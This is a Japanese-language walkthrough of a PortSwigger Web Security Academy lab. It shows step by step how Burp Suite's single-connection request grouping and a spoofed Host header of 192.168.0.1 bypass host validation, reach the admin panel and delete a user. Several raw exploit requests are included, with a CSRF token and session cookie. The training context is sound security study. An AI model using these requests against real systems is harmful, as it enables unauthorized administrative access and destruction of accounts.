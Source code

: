 # 接続状態攻撃によるホスト検証のバイパス

以下のハッキングラボを実施します  
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack  
このラボは、ホスト ヘッダーを介したルーティング ベースの SSRF に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. GET / HTTP/1.1 リクエストを send to repeater します
- 4. 以下にリクエストを書き換えて送信します

```
POST /admin HTTP/1.1
Host: 192.168.0.1
```

応答配下のようになり、ページの存在自体は確認できます

```
HTTP/1.1 301 Moved Permanently
Location: https://0a66006004cdf8e582615be0006b007b.h1-web-security-academy.net/
Connection: close
Keep-Alive: timeout=10
Content-Length: 0
```

- 5. repeater のリクエストを右クリックで send to repeater して複製します

- 6. 最初の repeater タブのリクエストを元に戻します
- 7. repeater のタブグループを作成し、2 つのタブをグループ化します
- 8. 送信方法は send group in sequence(single connection)にします
- 9. 最初の GET / リクエストに Connection: keep-alive
     ヘッダーを付加します
- 10. 2 つ目のリクエストで管理者ページのレスポンスが受け取れています

```html
<form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
  <input required type="hidden" name="csrf" value="xGK0Mb8XAIeVFnQPH6v0olSpSyAvNHIF" />
  <label>Username</label>
  <input required type="text" name="username" />
  <button class="button" type="submit">Delete user</button>
</form>
```

- 11. 2 つ目のリクエストを POST /admin/delete リクエストに書き換えて、パラメータを渡します。csrf は先ほどの応答データを使用します

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=47%7cMC0CFQCCUttHQ1CWMxMwMKPHVU6J2OxgpgIUS8nfdYSDadNQ8mZteXQm1K4WVMoFHMSgzc6fz7bgTirO%2fzf6lPqf9VKQE5OZPuVJDxg50Q4L5beKpl7%2biIMb5hI1Cxvr84TE%2bZa3rOt%2f%2f2sHHoIKKUu10wpP8OiC5UUG%2bI517FFjr1WoHbm8; session=iZDItsjZvEtmvDn0AnzwwEQa2zo5dDRr
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=xGK0Mb8XAIeVFnQPH6v0olSpSyAvNHIF&username=carlos
```

- 12. 再度 send group in sequence(single connection)を実行すると一般ユーザーが削除されます
